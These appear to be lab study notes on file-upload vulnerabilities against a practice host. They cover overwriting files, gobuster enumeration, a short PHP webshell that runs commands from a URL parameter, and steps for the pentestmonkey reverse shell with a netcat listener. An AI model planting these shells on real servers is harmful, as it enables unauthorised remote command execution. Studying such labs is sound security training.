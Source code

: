 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)




